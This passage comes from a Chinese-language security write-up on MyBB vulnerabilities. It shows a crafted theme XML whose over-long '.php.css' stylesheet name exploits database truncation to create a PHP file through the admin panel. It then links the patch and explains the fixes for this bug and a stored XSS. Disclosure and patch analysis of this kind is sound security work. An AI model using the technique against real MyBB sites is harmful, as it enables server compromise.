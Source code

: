 ![image.png-53.1kB][10]

## 后台文件创建漏洞

找到后台加载theme的地方

![image.png-64.8kB][11]

构造上传文件test.xml
```
<?xml version="1.0" encoding="UTF-8"?>

<theme>
    <stylesheets>
        <stylesheet name="tttttttttttttttttttttttttt.php.css">
        	test
    	</stylesheet>
    </stylesheets>
    
</theme>
```

需要注意要勾选 Ignore Version Compatibility。

然后查看Theme列表，找到新添加的theme

![image.png-104kB][12]

然后保存并访问相应tid地址的文件即可

![image.png-50.8kB][13]

# 补丁

- [https://github.com/mybb/mybb/commit/44fc01f723b122be1bc8daaca324e29b690901d6](https://github.com/mybb/mybb/commit/44fc01f723b122be1bc8daaca324e29b690901d6)

## 储存型xss

![image.png-28.6kB][14]

这里的iframe标签的链接被encode_url重新处理，一旦被转义，那么`[url]`就不会被继续解析，则不会存在问题。

## 后台任意文件创建

![image.png-64kB][15]

在判断文件名后缀之前，加入了字符数的截断，这样一来就无法通过数据库字符截断来构造特殊的name了。

# 写在最后


  [1]: http://static.zybuluo.com/LoRexxar/2sqg4mfyp2gxvzkgso6ukbpf/image.png
  [2]: http://static.zybuluo.com/LoRexxar/2djx25qc7zk91sre0cb57qpa/image.png
  [3]: http://static.zybuluo.com/LoRexxar/1vzl0syw0azoyze1eyjswdj6/image.png
  [4]: http://static.zybuluo.com/LoRexxar/x21og8j9jusptv8jydinfwsi/image.png
  [5]: http://static.zybuluo.com/LoRexxar/dmab7neitnrhhc9tz6vsg5kp/image.png
  [6]: http://static.zybuluo.com/LoRexxar/6hb80yi92z4d8qw6jr84ddr8/image.png
  [7]: http://static.zybuluo.com/LoRexxar/9ymykvc2nkw2iyrrcglu6mbj/image.png
  [8]: http://static.zybuluo.com/LoRexxar/534dh1kbms7bj74nd9kj1gsv/image.png
  [9]: http://static.zybuluo.com/LoRexxar/kbvn6wytobvzdkdxsf7kt1g3/image.png
  [10]: http://static.zybuluo.com/LoRexxar/hg8teug35kvvqidni2yp3wwl/image.png
  [11]: http://static.zybuluo.com/LoRexxar/92kjt8109dfzko2q6w7dwxh9/image.png
  [12]: http://static.zybuluo.com/LoRexxar/b20kmnra0fwqj0jmd5evy1d1/image.png
  [13]: http://static.zybuluo.com/LoRexxar/534dh1kbms7bj74nd9kj1gsv/image.png
  [14]: http://static.zybuluo.com/LoRexxar/6ulzp7tspenjxkw6736kp67y/image.png
  [15]: http://static.zybuluo.com/LoRexxar/02hprp4c9vbokdj0p3lczilz/image.png